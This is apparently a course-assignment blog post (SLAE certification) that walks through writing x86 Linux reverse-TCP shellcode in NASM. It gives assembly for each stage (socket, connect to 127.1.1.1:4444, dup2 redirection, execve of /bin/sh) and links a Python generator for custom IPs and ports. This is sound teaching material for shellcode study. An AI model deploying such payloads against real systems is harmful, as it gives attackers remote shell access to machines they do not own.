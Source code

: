 ```yaml
---
layout: post
title: SLAE 0x2 - TCP Reverse Shell in NASM
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to craft my own version of *linux/shell_reverse_tcp*. This means that our shellcode connects to a target host on a specified port and returns a shell.

# How it works

To understand how it works, let's break it down to steps:

1. Create a socket file descriptor that we can use for communication
2. Connect to address and port
3. Connect *stdin*, *stdout* and *stderr* to socket
4. Execute */bin/sh*

Looking at the steps and comparing it to SLAE 0x1 Bind TCP shell, we can see that it's the same, but with connect to host instead of the bind/listen/accept syscalls. This makes this assignment a walk in the park if you already did the bind shell first and if you didn't, you should probably start with this instead.

# Assembly code

For the embedded code, I removed most of the inline comments. If you want to check out the full source code with all the comments, feel free to do it on my [Github](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.nasm). Most of the explanation has been unchanged from SLAE 0x1, but there are some small subtle changes in the old code as well.

#### Initializing

The first step is to initialize the registers to make sure that we start from a clear state when the shellcode is executed. Why? Because there could be some leftover data remaining in the registers, which can lead to *unexpected behaviour*. I XORd the EAX register with itself and moved it's value into the other registers. You can also XOR out the others or instead of moving POP a 0x00 value from the stack.

    ; xor register eax so we avoid null byte, then mov value into other registers as well   
    xor eax, eax
    mov ebx, eax
    mov ecx, eax
    mov edi, eax
    mov esi, eax


#### Socket

Next, we need to create the socket file descriptor. For this, I used the socket() syscall with the SYS_SOCKET socket call. This creates a socket file descriptor and gives back the file handler as the return value. My favorite reference for syscalls is [syscalls.kernelgrok.com](https://syscalls.kernelgrok.com/) which shows what each register needs to contain for the given syscall. Upon looking at the reference, we can see that for the sys_socketcall we need to set EAX to 0x66 (102), specify the call in EBX and pass the references in ECX.

For the first socket call (SYS_SOCKET), I needed to specify the domain (protocol family aka IPv4) AF_INET - 0x2, the type (TCP) SOCK_STREAM - 0x1 and the protocol, which in this case is 0x0 as we accept any protocol. To set up the call, I first moved 0x66 into the EAX register for the sys_socketcall, then I incremented the EBX register by one to contain the value of the SYS_SOCKET call. Then I pushed the value of the arguments in reverse order and stored the address in ECX. ECX was XORed out from before so it contained 0x00, EBX is 0x1 because of SYS_SOCKET so this was used for the type argument, while for AF_INET I pushed 0x2 byte on the stack.

    socket:
    mov al, 0x66 ; 102 sys_socketcall

    inc bl ; SYS_SOCKET 1 
    
    push ecx ; 0x0 - any - int protocol
    push ebx ; 0x1 - SOCK_STREAM - int type
    push byte 0x2 ; 0x2 - PF_INET/AF_INET - int domain
    
    mov ecx, esp ; store argument address in ecx

    int 0x80 ; sys_socketcall

#### Connect

This is the only major change compared to the bind shell. Instead of a the bind/listen/accept I now only had to do a connect function call. To my surprise connecting to a remote host is much-much easier than setting up a bind shell on your machine. 

The flow of the code is somewhat similar to the bind function call. I set up the registers for the function call first EAX -> 0x66 SYS_SOCKETCALL and EBX -> SYS_CONNECT. After that I pushed the sockaddr struct onto the stack, first the IP address in network byte order (connects back to localhost by default), then the port 4444, byte 0x2 (as in AF_INET) and finally stored the sockaddr_in pointer in ECX and pushed that on the stack. We also need the addrlen and the socket file descriptor, so I pushed 16 and the sockfd from ESI as well. Finally we just need to move the argument address to ECX and do the syscall.

    mov esi, eax ; move sockfd into esi
    mov al, 0x66; 102 sys_socketcall
    mov bl, 0x3; SYS_CONNECT 

    push 0x0101017f; 127.1.1.1 in network byte order 
    push word 0x5c11; port 4444 in network byte order
    push word 0x2 ; 0x2, sin_family - AF_INET

    mov ecx, esp ; store sockaddr_in pointer
    push byte 16 ; socketlen_t addrlen 16 bit

    push ecx ; sockaddr_in pointer
    push esi ; push sockfd

    mov ecx, esp ; store argument address in ecx
    int 0x80 ; syscall


#### Duplicate

In this section of the shellcode we bind together stdin, stdout, stderr and the socket file descriptor. I first swapped out EAX and EBX, so EBX points to the file descriptor. After that I zeroed out ECX as a start value for the loop.

    duplicate:        
    xchg eax, ebx ; move fdescriptor from accept into ebx for oldfd
    xor ecx, ecx ; zero out ecx for counter

The loop portion of the code moves 0x3f into EAX, calls the interrupt, increments ECX (loop counter), compares ECX with 0x3 and jumps back to the start of the loop if ECX is not equal to 3. What this means in practice is that it calls the dup2 system call on our socket with stdin, stdout and stderr.

    dup2:
    mov al, 0x3f ; int dup2 - 63 in hex
    int 0x80 ; dup2 syscall
    inc cl ; increment loop register
    cmp ecx, 0x3 ; compare ecx 0x3 
    jne dup2 ; if ecx != 3 continue looping

#### Execve

In the last part of the shellcode, we spawn /bin/sh. The code is straight out from the previous execve stack exercise without any major changes. We need to push //bin/sh0x0 onto the stack for EBX, the memory adress of //bin/sh,0x0 for ECX and 0x0 for EDX. 

    execsh:

    xor eax, eax ; null out eax
    push eax ; null byte
    
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    
    mov ebx, esp ; move stack pointer into ebx
    push eax ; push another null for the sys argv
    mov edx, esp ; sysargv arguments - address as above, but now with extra null bytes
    push ebx ; push address of the program name -> //bin/sh0x00
    mov ecx, esp ; arguments

    mov al, 11 ; execve syscall
    int 0x80 ; call execve


# Call graph

Here is the graph call for the shellcode. As *libemu* doesn't work on my machine, I had used *radare2* and *Cutter* to export the call graph.

![Graph call in Cutter]({{"/content/posts/slae/revshellgraph.png" | absolute_url }}){: .center}


# Shell 

Launching the shellcode on port 4444 in the compiled C test program and connecting to it with *netcat*.

![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae/revshell.png" | absolute_url }}){: .center}

# Shellcode generator

I also made a short shellcode generator script in Python3 to make custom payloads easier. It can be found on [my Github repository](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.py). Using it is really easy, it takes two arguments (ip and port) and echoes out the modified shellcode to *stdout*. The way it works is very simple, it transforms the IP and port into hex and replaces them in the hardcoded shellcode. There are a few validation rules, but it doesn't check for null or other badchars.

# Final Thoughts

After doing the previous assignment, this was a walk in the park. It took roughly 20 minutes to change everything in the bind tcp shell, so it connects to a remote host instead of listening locally and another 20 minutes to figure out the changes for the IP in the shellcode generation script. For those who are reading this because they plan to do SLAE, I would recommend starting with this instead of bind TCP.

Even though I found this assignment easier compared to the previous one, I still learned a lot. Coding your own shellcodes teaches you a lot about how they work and what happens to them when you send them to that poor-poor vulnerable service that you wanted to exploit. It was really awesome to see that /bin/sh was still there, waiting for instructions, when the shellcode failed to connect back to my attacker machine. I have seen this previously in the OSCP labs and it all became clear to me after seeing it with *my code*. These wins are the reason why I love infosec, no matter how much you know, you can always go deeper and learn something new.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).